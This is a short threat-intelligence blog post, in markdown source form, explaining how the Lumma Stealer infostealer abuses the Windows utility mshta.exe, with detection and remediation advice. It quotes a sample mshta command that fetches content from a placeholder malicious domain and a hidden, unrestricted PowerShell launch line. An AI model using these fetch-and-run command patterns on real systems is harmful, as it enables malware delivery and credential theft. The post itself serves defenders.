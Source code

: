```yaml
---
author: "Wren Howell"
title: "Lumma's Living off the Land by MSHTA"
date: 2025-04-14
description: "Living off the Land Using MSHTA"
tags: ["Living off the Land , Windows"]
thumbnail: https://frsecure.com/wp-content/uploads/2021/08/Living-Off-the-Land-Attacks.jpg
---
```


As EDR and endpoint detections evolve, so do the tactics of threat actors. Rather than relying on attacker tools that are easily flagged by security systems, adversaries are increasingly leveraging living-off-the-land techniques—abusing legitimate tools and processes already present in the environment to execute malicious activity.

One example is Lumma Stealer, a type of information stealer often associated with Russian threat actors. Lumma Stealer is known for its simplicity and effectiveness, utilizing built-in Windows binaries like mshta.exe to evade detection.

**What is mshta.exe?** 

Mshta.exe is a native Windows utility designed to execute Microsoft HTML Applications (HTA). HTAs are essentially HTML files combined with scripting languages such as VBScript or JavaScript, and they execute with the same privileges as the user. Threat actors like Lumma Stealers commonly exploit mshta.exe by passing malicious arguments that spawn PowerShell commands. For example, Lumma Stealer might use a command like:

```bash
mshta.exe https://malicious_domain
```

This would be followed by an obfuscated PowerShell script designed to retrieve additional payloads or commands from the attacker's controlled infrastructure.
```bash
powershell.exe -w -h -ep Unrestricted -nop function [a bunch of hex]
```

**Detection**

A potential detection opportunity would be to check when mshta.exe spawns a child process such as PowerShell or cmd.exe, especially when the PowerShell command line is unusually long or obfuscated. This is a good indicator of potentially malicious behavior.　

**Remediation**

Since Lumma Stealer is a type info stealer, remediation steps include:
- Resetting credentials for the affected user(s)
- Blocking the malicious domain(s) used in the attack
- Deleting the phishing email or url responsible for the initial infection

For a more comprehensive defense, consider implementing Windows Defender Application Control (WDAC) policies to block all HTA file execution. This mitigates an entire class of attacks that abuse mshta.exe.

Resources 

- https://blackpointcyber.com/blog/the-rise-of-fake-captcha-attacks/

- https://www.netskope.com/blog/lumma-stealer-fake-captchas-new-techniques-to-evade-detection

{{< css.inline >}}

<style>
.emojify {
	font-family: Apple Color Emoji, Segoe UI Emoji, NotoColorEmoji, Segoe UI Symbol, Android Emoji, EmojiSymbols;
	font-size: 2rem;
	vertical-align: middle;
}
@media screen and (max-width:650px) {
  .nowrap {
    display: block;
    margin: 25px 0;
  }
}
</style>

{{< /css.inline >}}
